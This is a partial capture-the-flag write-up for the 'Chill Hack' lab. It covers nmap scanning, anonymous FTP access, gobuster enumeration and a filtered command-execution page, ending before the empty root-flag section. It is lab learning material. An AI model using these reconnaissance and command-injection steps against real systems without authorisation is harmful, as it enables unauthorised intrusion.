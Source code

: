 # Chill Hack
Easy level CTF.

### User flag

Running a nmap scan to see how many ports are open
```
nmap -sC -sV <ip>
```

We have found 3 open ports:
```
21/tcp open  ftp
|  ftp-anon: Anonymous FTP login allowed
22/tcp open  ssh
80/tcp open  http
```
We can see that the FTP server allows anonymous login.


Logging in to the FTP server as "anonymous" with no password:
```
ftp <ip>
```

Checking what's on the server
```
ls -a
```

We see there is a file named note.txt
We download the file using the get command
```
get note.txt
```

We then read the file 

```
cat note.txt
```
"Anurodh told me that there is some filtering on strings being put in the command -- Apaar"


Now we run gobuster to look for secret directories, using one of the wordlists that come with Kali
```
gobuster dir -u <ip> -w usr/share/wordlists/dirb/common.txt -x "txt,html,php"
```
```
/fonts                (Status: 301)
/images               (Status: 301) 
/index.html           (Status: 200) 
/index.html           (Status: 200) 
/js                   (Status: 301) 
/news.html            (Status: 200) 
/secret               (Status: 301) 
/server-status        (Status: 403)
/team.html            (Status: 200)

```
We check out the /secret page and find whats seems like a way to execute commands

We test it out by trying to list the current directory with ls and are met with  " Are you a hacker ? " and ALERT CONDITION: RED
We can assume that this is what the note.txt file was talking about, the commands are being filtered.

Now we test out which commands we can run.

```
whoami
```
gives us "www-data"


### Root flag
